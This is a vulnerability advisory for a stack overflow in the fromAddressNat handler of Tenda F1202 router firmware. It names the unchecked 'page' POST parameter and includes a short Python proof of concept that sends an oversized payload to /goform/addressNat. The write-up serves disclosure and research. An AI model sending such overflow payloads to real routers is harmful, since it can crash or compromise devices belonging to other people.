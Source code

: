 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2671.html

## Affected version

F1202 V1.2.0.20(408)

## Vulnerability details

The Tenda F1202 V1.2.0.20(408) firmware has a stack overflow vulnerability in the `fromAddressNat` function. The `v3` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `page` can trigger this security vulnerability.

![image-20240319225157752](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319225157752.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240321221807987](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240321221807987.png)
